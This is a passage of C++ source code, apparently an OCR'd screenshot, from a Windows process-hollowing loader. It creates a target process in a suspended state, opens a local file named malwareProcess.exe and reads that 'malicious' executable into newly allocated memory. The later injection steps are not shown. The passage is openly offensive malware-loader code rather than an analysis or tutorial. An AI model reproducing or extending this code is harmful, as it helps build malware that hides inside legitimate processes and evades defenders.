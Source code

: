 ```text
		NULL,
		TRUE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		target_si,
		target_pi) == 0) {
		cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
		return 1;
	}


	//#########################################################################
	// get handle to Malicious program
	HANDLE hMaliciousCode = CreateFileA(
		(LPCSTR)"C:\\Users\\ryan\\Desktop\\repos\\MalwareProcess\\Debug\\malwareProcess.exe",
		GENERIC_READ,
		FILE_SHARE_READ,
		NULL,
		OPEN_EXISTING,
		NULL,
		NULL
	);
	cout << "[+] Process PID-> 0x" << target_pi->dwProcessId << endl;

	if (hMaliciousCode == INVALID_HANDLE_VALUE) {
		cout << "[!] Failed to open Malicious file: " << GetLastError()<<endl;
		TerminateProcess(target_pi->hProcess, 0);
	}
	cout << "[+] Malicious file opened." << endl;


	//#########################################################################
	//Get size of Malicious process in bytes to use in Virtual Alloc
	DWORD maliciousFileSize = GetFileSize(hMaliciousCode, 0);
	cout << "[+] Malicious file size: " << maliciousFileSize << " bytes." << endl;


	//#########################################################################
	//Allocate memory for Malicious process
	PVOID pMaliciousImage = VirtualAlloc(
		NULL,
		maliciousFileSize,
		0x3000,
		0x04
	);


	//#########################################################################
	//Read Malicious exe and write into allocated memory with ReadFile()
	DWORD numberOfBytesRead;

	if (!ReadFile(
		hMaliciousCode,
		pMaliciousImage,
		maliciousFileSize,
		&numberOfBytesRead,
		NULL
		)) {
		cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
		TerminateProcess(target_pi->hProcess, 0);
		return 1;
	}
```